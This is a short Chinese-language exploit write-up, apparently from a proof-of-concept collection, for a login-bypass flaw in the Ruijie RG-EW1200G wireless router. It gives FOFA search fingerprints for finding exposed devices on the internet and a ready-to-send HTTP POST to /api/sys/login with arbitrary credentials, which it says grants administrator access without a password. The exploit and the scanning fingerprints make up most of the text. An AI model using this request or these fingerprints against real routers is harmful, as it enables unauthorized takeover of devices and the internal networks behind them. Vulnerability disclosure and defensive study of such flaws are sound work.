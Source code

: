 # 锐捷RG-EW1200G无线路由器登录绕过

锐捷网络RG-EW1200G HWR_1.0(1)B1P5,Release(07161417) r483存在登录绕过逻辑漏洞，允许任何用户无需密码即可获得设备管理员权限。登录路由器，获取敏感信息，控制内部网络。

## fofa

```
body="app.2fe6356cdd1ddd0eb8d6317d1a48d379.css"
icon_hash="1086165720"
```

## poc

```
POST /api/sys/login HTTP/1.1
Host: xxx.xxx.xxx:6060
Content-Length: 59
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: application/x-www-form-urlencoded
Origin: http://xxx.xxx.xxx:6060
Referer: http://xxx.xxx.xxx:6060/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

{"username":"2","password":"123","timestamp":1692412880000}
```

![image-20240526194459561](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261944604.png)